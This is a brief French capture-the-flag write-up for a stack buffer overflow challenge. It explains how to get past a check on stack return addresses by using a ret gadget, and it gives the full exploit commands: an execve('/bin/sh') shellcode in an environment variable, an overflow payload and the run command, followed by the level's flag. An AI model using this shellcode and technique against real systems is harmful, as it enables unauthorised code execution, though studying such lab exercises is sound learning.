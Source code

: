 ## GET Flag

Ce binaire utilisant aussi gets, mais utilise une protection en vérifiant après l'appel que l'eip ne soit pas une adresse de la stack (commençant par 0xb).

Il n'est donc pas possible de remplacer l'eip par l'adresse d'un SHELLCODE placé dans l'environnement.

Cependant l'adresse du ret de cette fonction n'est pas une adresse de la stack et cette instruction à pour particularité de décaler la stack de 4octets. 

Il est donc possible d'écrire l'adresse du shellcode préalablement exporté dans l'environnement juste après l'adresse de ce return.

```
export SHELLCODE=$(python -c 'print 50 * "\x90" + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
python -c 'print 80 * "A" + "\x3e\x85\x04\x08" + "\xe0\xf8\xff\xbf"' > exploit
cat exploit - | ./level2
```

### Flag

```
level3
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
